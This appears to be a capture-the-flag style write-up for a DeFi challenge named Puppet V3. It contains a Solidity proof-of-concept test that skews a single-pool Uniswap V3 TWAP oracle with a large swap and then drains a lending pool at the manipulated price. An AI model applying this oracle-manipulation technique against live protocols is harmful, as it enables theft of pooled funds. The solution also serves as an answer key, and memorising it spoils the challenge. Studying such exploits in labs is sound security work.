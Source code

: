 ## Low trading volume, short time period for TWAP and usage of only a single "source of truth" (Only one Uniswap pool) still allows an attacker to manipulate the attack relatively easy 

## PoC
```solidity 
    function test_puppetV3() public 
    checkSolvedByPlayer 
    {
        // 1. Make a huge swap
        // For simplicity I use the router instead of interact directly with the pool -> https://docs.uniswap.org/contracts/v3/guides/swaps/single-swaps
        ISwapRouter router = ISwapRouter(0xE592427A0AEce92De3Edee1F18E0157C05861564); // taken from docs
        
        ISwapRouter.ExactInputSingleParams memory params =
        ISwapRouter.ExactInputSingleParams({
            tokenIn: address(token),
            tokenOut: address(weth),
            fee: FEE,
            recipient: player,
            deadline: block.timestamp,
            amountIn: 110e18,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });

        TransferHelper.safeApprove(address(token), address(router), 110e18);

        router.exactInputSingle(params);

        // 2. Wating just a bit of time, if no other huge swap is performed, the manipulation suceeds
        skip(114 seconds);
        weth.approve(address(lendingPool), weth.balanceOf(player));
        lendingPool.borrow(token.balanceOf(address(lendingPool)));
        token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }
```
Remember to import the router and transfer helper from the Uni lib (yep, you can use named imports)
```solidity
import '@uniswap/v3-periphery/contracts/interfaces/ISwapRouter.sol';
import '@uniswap/v3-periphery/contracts/libraries/TransferHelper.sol';
```
